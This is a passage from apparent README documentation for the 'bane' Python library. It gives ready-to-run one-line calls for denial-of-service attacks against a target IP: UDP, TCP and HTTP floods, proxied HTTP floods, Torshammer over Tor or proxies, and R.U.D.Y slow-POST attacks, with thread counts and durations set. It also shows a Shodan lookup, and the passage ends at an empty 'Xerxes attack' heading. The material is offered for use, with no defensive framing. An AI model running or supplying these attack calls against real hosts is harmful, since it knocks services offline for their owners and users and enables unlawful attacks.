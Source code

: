 </pre></div><h4>Shodan report:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">api_key="ghbjklmjklmjlkml...."
<br>bane.shodan_report(IP , api_key)
</pre></div>



# DDoS:

<h4>UDP FLOOD:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.udp_flood(IP, p= port , min_size=10, max_size=20 , duration= 300 , interval=0.001)
</pre></div>

<h4>TCP FLOOD:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.tcp_flood(IP, p= port , min_size=10, max_size=20 , duration= 300 , interval=0.001 , threads=500, timeout=5)
</pre></div>
<h4>HTTP FLOOD:</h4>
<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.http_spam(IP, p= port , duration= 300 ,interval=0.001 , threads=500 , timeout=5)
</pre></div>
<h4>HTTP FLOOD using proxies (HTTP/SOCKS4/SOCKS5):</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_http_spam(IP, p= port , duration= 300 ,interval=0.001 , threads=500 , timeout=5)
</pre></div>
<h4>Torshammer attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.torshammer(IP, p= port , duration= 300 ,set_tor=False , threads=500 , timeout=5)
</pre></div>
<h4>Torshammer attack but through proxies instead of Tor:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_hammer(IP, p= port , duration= 300 , threads=500 , timeout=5)
</pre></div>
<h4>R.U.D.Y attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.rudy(IP, p= port , duration= 300 ,set_tor=False , threads=500 , timeout=5 , form="q" , page="/search.php")
</pre></div>
<h4>Xerxes attack:</h4>
